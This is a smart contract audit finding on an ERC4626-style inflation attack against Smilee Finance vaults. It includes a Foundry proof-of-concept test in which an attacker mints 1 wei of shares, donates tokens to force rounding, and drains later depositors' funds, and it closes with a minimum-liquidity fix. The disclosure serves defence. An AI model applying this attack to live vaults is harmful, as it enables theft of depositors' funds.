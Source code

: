 Sharp Wool Leopard

medium

# Vault Inflation Attack


## Summary

An attacker can be the first and only depositor on the vault during the first epoch in order to execute an inflation attack that will steal the deposited funds of all depositors in the next epoch. 

## Vulnerability Detail

A malicious user can perform a donation to execute a classic first depositor/ERC4626 inflation Attack against the new Smilee vaults. The general process of this attack is well-known, and a detailed explanation of this attack can be found in many of the resources such as the following:

- https://blog.openzeppelin.com/a-novel-defense-against-erc4626-inflation-attacks
- https://mixbytes.io/blog/overview-of-the-inflation-attack

In short, to kick-start the attack, the malicious user will often usually mint the smallest possible amount of shares (e.g., 1 wei) and then donate significant assets to the vault to inflate the number of assets per share. Subsequently, it will cause a rounding error when other users deposit.

However, in Smilee there's the problem that the deposits are not processed until the epoch is finished. Therefore, the attacker would need to be the only depositor on the first epoch of the vault; after the second epoch starts, all new depositors will lose all the deposited funds due to a rounding error. 

This scenario may happen for newly deployed vaults with a short maturity period (e.g., 1 day) and/or for vaults with not very popular tokens. 

## Impact

An attacker will steal all funds deposited by the depositors of the next epoch. 

## PoC

The following test can be pasted in `IGVault.t.sol` and be run with the following command: `forge test --match-test testInflationAttack`.

```solidity
function testInflationAttack() public {
    // Attacker deposits 1 wei to the vault
    VaultUtils.addVaultDeposit(bob, 1, admin, address(vault), vm);

    // Next epoch...
    Utils.skipDay(true, vm);
    vm.prank(admin);
    ig.rollEpoch();

    // Attacker has 1 wei of shares
    vm.prank(bob);
    vault.redeem(1);
    assertEq(1, vault.balanceOf(bob));

    // Other users deposit liquidity (15e18)
    VaultUtils.addVaultDeposit(alice, 10e18, admin, address(vault), vm);
    VaultUtils.addVaultDeposit(alice, 5e18, admin, address(vault), vm);

    Utils.skipDay(true, vm);

    // Before rolling an epoch, the attacker donates funds to the vault to trigger rounding
    vm.prank(admin);
    baseToken.mint(bob, 15e18);
    vm.prank(bob);
    baseToken.transfer(address(vault), 15e18);

    // Next epoch...
    vm.prank(admin);
    ig.rollEpoch();

    // No new shares have been minted
    assertEq(1, vault.totalSupply()); 

    // Now, attacker can withdraw all funds from the vault
    vm.prank(bob);
    vault.initiateWithdraw(1);

    // Next epoch...
    Utils.skipDay(true, vm);
    vm.prank(admin);
    ig.rollEpoch();

    // The attacker withdraws all the funds (donated + stolen)
    vm.prank(bob);
    vault.completeWithdraw();
    assertEq(baseToken.balanceOf(bob), 30e18 + 1);
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/Vault.sol#L324-L349

## Tool used

Manual Review

## Recommendation

To mitigate this issue it's recommended to enforce a minimum liquidity requirement on the deposit and withdraw functions. This way, it won't be possible to round down the new deposits. 

```diff
    function deposit(uint256 amount, address receiver, uint256 accessTokenId) external isNotDead whenNotPaused {
        // ...

        _state.liquidity.pendingDeposits += amount;
        _state.liquidity.totalDeposit += amount;
        _emitUpdatedDepositReceipt(receiver, amount);
        
+       require(_state.liquidity.totalDeposit > 1e6);

        // ...
    }
    
    function _initiateWithdraw(uint256 shares, bool isMax) internal {
        // ...

        _state.liquidity.totalDeposit -= withdrawDepositEquivalent;
        depositReceipt.cumulativeAmount -= withdrawDepositEquivalent;

+       require(_state.liquidity.totalDeposit > 1e6 || _state.liquidity.totalDeposit == 0);

        // ...
    }
```

